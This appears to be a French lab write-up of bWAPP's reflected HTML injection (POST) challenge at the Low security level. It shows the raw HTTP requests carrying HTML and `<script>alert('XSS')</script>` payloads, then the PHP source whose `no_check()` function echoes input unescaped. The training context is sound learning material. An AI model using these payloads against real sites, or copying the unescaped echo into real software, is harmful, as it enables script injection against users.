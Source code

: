 # Niveau "Low"

## Exploitation

L'exploitation est ici triviale. Le prénom et le nom sont renseignés dans un formulaire transféré par la méthode HTTP `POST` :&#x20;

![](<../../../../../.gitbook/assets/image (17) (1).png>)

Dont voici la requête :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 46
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=pr%C3%A9nom&lastname=nom&form=submit
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (POST)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_post.php" method="POST">
    <p><label for="firstname">First name:</label><br />
    <input type="text" id="firstname" name="firstname"></p>
    <p><label for="lastname">Last name:</label><br />
    <input type="text" id="lastname" name="lastname"></p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prénom nom
</div>
```

Une première tentative d'injection peut se faire en se limitant à du code HTML, bien qu'il soit également possible d'injecter du Javascript :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 128
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=%3Ch1%3ETitre+H1+contenant+le+pr%C3%A9nom%3C%2Fh1%3E&lastname=%3Ch1%3ETitre+H1+contenant+le+nom%3C%2Fh1%3E&form=submit
```

![](<../../../../../.gitbook/assets/image (19).png>)

Mais l'injection Javascript est également tout à fait possible, ici avec `<script>alert('XSS')</script>` :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 82
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: security_level=0; PHPSESSID=ca654b413e48f90c2da7d8bf914be955
Connection: close

firstname=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&lastname=nom&form=submit
```

![](<../../../../../.gitbook/assets/image (9) (1).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_post.php" %}
```php
if(isset($_POST["firstname"]) && isset($_POST["lastname"])) {
  $firstname = $_POST["firstname"];
  $lastname = $_POST["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " .  htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_post.php" %}
```php
function htmli($data) {
  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;;
  }

  return $data;
}
```
{% endcode %}

Le level "Low" correspond à la valeur 0, c'est à dire ici à l'exécution de la méthode `no_check()` qui retourne simplement la donnée :&#x20;

{% code title="functions_external.php" %}
```php
function no_check($data) {
  return $data
}
```
{% endcode %}
